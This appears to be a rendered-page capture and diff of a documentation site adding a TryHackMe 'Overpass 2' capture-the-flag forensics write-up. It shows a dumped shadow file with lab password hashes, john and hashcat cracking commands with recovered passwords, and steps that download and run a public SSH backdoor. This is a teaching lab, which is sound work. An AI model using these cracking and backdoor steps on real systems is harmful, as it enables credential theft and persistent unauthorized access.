

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/overpass2.md, in a window 1280 px wide and 1400 px high, scrolled down 1986 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/thm/overpass2.md
+++ b/source/docs/thm/overpass2.md
@@ -5,3 +5,124 @@
 | [https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked) |
 
 Overpass has been hacked. Analyse the attacker’s actions and hack back in.
+
+## Forensics - Analyse the PCAP
+
+Open the `pcap` file in Wireshark and analyze the HTTP traffic (enter http as filter).
+Right-click on the first HTTP frame and select "Follow > TCP Stream":
+
+| ![URL](../../_static/images/Screenshot from 2022-10-02 00-57-01.png) |
+|:--:|
+| The URL of the page used to upload a reverse shell |
+
+| ![Payload](../../_static/images/Screenshot from 2022-10-02 00-55-58.png) |
+|:--:|
+| Payload used to gain access |
+
+| ![Password](../../_static/images/Screenshot from 2022-10-02 00-56-30.png) |
+|:--:|
+| Password used to escalate privileges |
+
+| ![Backdoor](../../_static/images/Screenshot from 2022-10-02 00-54-27.png) |
+|:--:|
+| Backdoor for persistence |
+
+Before downloading the SSH backdoor, the attacker has dumped the content of the `/etc/shadow` file:
+
+```text
+root:*:18295:0:99999:7:::
+daemon:*:18295:0:99999:7:::
+bin:*:18295:0:99999:7:::
+sys:*:18295:0:99999:7:::
+sync:*:18295:0:99999:7:::
+games:*:18295:0:99999:7:::
+man:*:18295:0:99999:7:::
+lp:*:18295:0:99999:7:::
+mail:*:18295:0:99999:7:::
+news:*:18295:0:99999:7:::
+uucp:*:18295:0:99999:7:::
+proxy:*:18295:0:99999:7:::
+www-data:*:18295:0:99999:7:::
+backup:*:18295:0:99999:7:::
+list:*:18295:0:99999:7:::
+irc:*:18295:0:99999:7:::
+gnats:*:18295:0:99999:7:::
+nobody:*:18295:0:99999:7:::
+systemd-network:*:18295:0:99999:7:::
+systemd-resolve:*:18295:0:99999:7:::
+syslog:*:18295:0:99999:7:::
+messagebus:*:18295:0:99999:7:::
+_apt:*:18295:0:99999:7:::
+lxd:*:18295:0:99999:7:::
+uuidd:*:18295:0:99999:7:::
+dnsmasq:*:18295:0:99999:7:::
+landscape:*:18295:0:99999:7:::
+pollinate:*:18295:0:99999:7:::
+sshd:*:18464:0:99999:7:::
+james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
+paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
+szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
+bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
+muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
+```
+
+Save in a file named `shadow.txt` and crack it with `john` against the `fasttrack` wordlist to find how many passwords were
+crackable:
+
+    # john shadow.txt --wordlist=/usr/share/wordlists/fasttrack.txt
+    Using default input encoding: UTF-8
+    Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
+    Cost 1 (iteration count) is 5000 for all loaded hashes
+    Will run 4 OpenMP threads
+    Press 'q' or Ctrl-C to abort, almost any other key for status
+    secret12         (bee)
+    abcd123          (szymex)
+    1qaz2wsx         (muirland)
+    secuirty3        (paradox)
+    4g 0:00:00:00 DONE (2022-10-02 01:00) 22.22g/s 1233p/s 6166c/s 6166C/s Spring2017..starwars
+    Use the "--show" option to display all of the cracked passwords reliably
+    Session completed.
+
+## Research - Analyse the code
+
+Download the backdoor to figure out the default hash for the backdoor:
+
+    $ wget https://github.com/NinjaJc01/ssh-backdoor/raw/master/backdoor
+    $ chmod +x backdoor
+    $ ./backdoor --help
+    backdoor
+
+      Flags:
+           --version       Displays the program version string.
+        -h --help          Displays help with available flag, subcommand, and positional value parameters.
+        -p --port          Local port to listen for SSH on (default: 2222)
+        -i --interface     IP address for the interface to listen on (default: 0.0.0.0)
+        -k --key           Path to private key for SSH server (default: id_rsa)
+        -f --fingerprint   SSH Fingerprint, excluding the SSH-2.0- prefix (default: OpenSSH_8.2p1 Debian-4)
+        -a --hash          Hash for backdoor (default: bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3)
+
+The [source code of the backdoor on Github](https://raw.githubusercontent.com/NinjaJc01/ssh-backdoor/master/main.go)
+shows the hardcoded SALT (bottom of file): `1c362db832f3f864c8c2fe05f2002a05`
+
+| ![Hash](../../_static/images/Screenshot from 2022-10-02 01-09-12.png) |
+|:--:|
+| Hash used by the attacker |
+
+```text
+func hashPassword(password string, salt string) string {
+    hash := sha512.Sum512([]byte(password + salt))
+    return fmt.Sprintf("%x", hash)
+}
+```
+
+The hardcoded salt is appended to the password, and the SHA512 of the resulting string makes the hash.
+
+Save `hash:salt` to file `overpasshash.txt`:
+
+    6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05
+
+Crack with `hashcat` using mode `1710` for `sha512($pass.$salt)`:
+
+    # hashcat --force -m 1710 -a 0 overpasshash.txt /usr/share/wordlists/rockyou.tx
+
+## Hack back in
````
Also changed, not shown: source/_static/images/Screenshot from 2022-10-02 00-54-27.png (added), source/_static/images/Screenshot from 2022-10-02 00-55-58.png (added), source/_static/images/Screenshot from 2022-10-02 00-56-30.png (added), source/_static/images/Screenshot from 2022-10-02 00-57-01.png (added), source/_static/images/Screenshot from 2022-10-02 01-09-12.png (added).
